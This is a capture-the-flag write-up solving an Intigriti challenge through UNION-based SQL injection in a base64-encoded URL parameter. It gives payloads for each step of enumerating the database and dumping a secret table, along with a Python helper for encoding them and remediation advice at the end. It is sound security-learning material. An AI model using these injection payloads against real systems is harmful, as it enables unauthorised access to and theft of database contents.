





**Challenge URL:** `https://challenge-0926.challenges.intigriti.io/challenge.php`  
**Vulnerability:** UNION-based SQL Injection in the `pic` parameter  
**Flag:** `INTIGRITI{01a09f56-74a2-700b-a849-ffe6742327b2}`

---

## Introduction

The Intigriti monthly challenge for September 2026 presented a simple animal gallery. Users could select an animal, and the page would display its description. The selected animal was passed via a `pic` parameter in the URL, base64-encoded. For example:

```
/challenge.php?pic=bGlvbg==
```

decodes to `lion`.

My goal was to find the hidden flag. After some initial reconnaissance, I discovered a SQL injection vulnerability in the `pic` parameter, which ultimately allowed me to dump the entire database and retrieve the flag.

---

## Reconnaissance

The first step was to understand how the `pic` parameter was processed. Decoding `bGlvbg==` gave `lion`, and the page displayed the lion's description. This suggested that the decoded value was used in a backend query, likely to fetch the description from a database.

I tested for common issues:

- No `robots.txt`, `sitemap.xml`, `.git`, or backup files.
- XSS and SSRF appeared to be dead ends.
- PHP version: `X-Powered-By: PHP/8.2.33`.

The most promising lead was the `pic` parameter itself. Since it was base64-encoded, the developer might have assumed this provided some security. However, encoding is not encryption.

---

## Confirming SQL Injection

I injected a simple SQL payload into the `pic` parameter. Because the value is base64-encoded and then URL-encoded, I had to encode my payload accordingly.

**Payload (raw):**
```sql
lion' OR 1=1-- -
```

**Encoded:**
```python
import base64, urllib.parse
payload = "lion' OR 1=1-- -"
encoded = urllib.parse.quote(base64.b64encode(payload.encode()).decode())
print(encoded)
```

The resulting request returned **all** animal descriptions instead of just the lion's. This confirmed a SQL injection vulnerability.



---

## Determining the Number of Columns

To use a `UNION SELECT` attack, I needed to know how many columns the original query returned.

**Payload:**
```sql
lion' UNION SELECT 1-- -
```

The value `1` appeared in the description area, meaning the query returns exactly **one column**, and that column is reflected on the page.



---

## Extracting the Database Name

With the column count confirmed, I extracted the current database name.

**Payload:**
```sql
lion' UNION SELECT database()-- -
```

**Response:**
```
critter_gallery
```



---

## Listing Tables

Next, I enumerated all tables in the `critter_gallery` database.

**Payload:**
```sql
lion' UNION SELECT group_concat(table_name) FROM information_schema.tables WHERE table_schema=database()-- -
```

**Response:**
```
animals,secret_vault
```

The table `secret_vault` immediately stood out as a likely place for the flag.



---

## Listing Columns in `secret_vault`

I then listed the columns of the `secret_vault` table.

**Payload:**
```sql
lion' UNION SELECT group_concat(column_name) FROM information_schema.columns WHERE table_name='secret_vault'-- -
```

**Response:**
```
id,note
```

The `note` column looked promising.



---

## Dumping the Flag

Finally, I dumped the contents of the `note` column.

**Payload:**
```sql
lion' UNION SELECT group_concat(note) FROM secret_vault-- -
```

**Response:**
```
INTIGRITI{01a09f56-74a2-700b-a849-ffe6742327b2}
```
---

## Conclusion

The challenge was solved by exploiting a UNION-based SQL injection in the `pic` parameter. The base64 encoding provided no protection, as the decoded input was concatenated directly into an SQL query without sanitization.


### Remediation

- Use parameterized queries (prepared statements) with bound parameters.
- Never concatenate user input into SQL queries.
- Apply the principle of least privilege to the database user.
- Validate and sanitize all user inputs, even if they are encoded.

---

## Appendix: Encoding Helper

All payloads must be base64-encoded and then URL-encoded before being placed in the `pic` parameter. This Python snippet makes it easy:

```python
import base64, urllib.parse

def encode_payload(sql):
    b64 = base64.b64encode(sql.encode()).decode()
    return urllib.parse.quote(b64)

# Example
print(encode_payload("lion' UNION SELECT group_concat(note) FROM secret_vault-- -"))
```

Then use the output as the `pic` value:
```
/challenge.php?pic=<encoded_payload>
```